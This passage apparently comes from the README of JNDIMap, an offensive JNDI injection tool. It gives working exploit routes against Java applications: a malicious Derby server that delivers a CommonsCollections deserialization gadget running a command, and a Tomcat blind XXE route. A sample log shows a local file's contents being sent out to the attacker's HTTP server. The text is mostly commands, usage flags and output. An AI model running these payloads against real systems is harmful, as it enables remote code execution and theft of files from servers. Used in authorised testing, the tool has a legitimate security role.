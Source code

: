 Although JNDI itself supports deserialization, it is not very meaningful, and may be useful in some extreme scenarios (e.g. filtering the LDAP protocol and only supporting RMI)

```bash
# 1. create an in-memory database
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>

# 2. start the malicious Derby Server quickly using JNDIMap
java -cp JNDIMap.jar map.jndi.server.DerbyServer -g "/CommonsCollectionsK1/Command/open -a Calculator"

# 3. specify Slave information, database is the name of the database created above
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>
```

Start the built-in malicious Derby Server

```bash
Usage: java -cp JNDIMap.jar map.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-f <file>] [-h]
```

`-p`: Derby Server listening port, default is `4851`

`-g`: specify gadget, e.g. `/CommonsCollectionsK1/Command/open -a Calculator` (i.e. `/Deserialize/*` series routes)

`-f`: specify custom serialization data file

`-h`: show usage

## Tomcat Blind XXE

Use `org.apache.catalina.users.MemoryUserDatabaseFactory` to achieve Blind XXE

The path must be in Base64 URL format

```bash
# Tomcat XXE
ldap://127.0.0.1:1389/TomcatXXE/<base64-url-encoded-path>
```

Due to JDK limitations, XXE can only read single-line files that do not contain special characters. The file contents are sent to the built-in HTTP server as the `content` parameter

```bash
[LDAP] Received query: /TomcatXXE/L3RtcC90ZXN0LnR4dA==
[TomcatXXE] Path: /tmp/test.txt
[LDAP] Sending Reference object (serialized data)
[HTTP] Receive request: /O5GPr0d7.xml
[HTTP] Receive request: /TsBaggdL.dtd
[HTTP] Receive request: /V4J4ZH1P?content=helloworld
```

## LDAP Deserialization

Supports Java deserialization via LDAP and LDAP protocols (RMI protocol is not supported)

JNDIMap has built-in the following gadgets, and also supports custom data deserialization
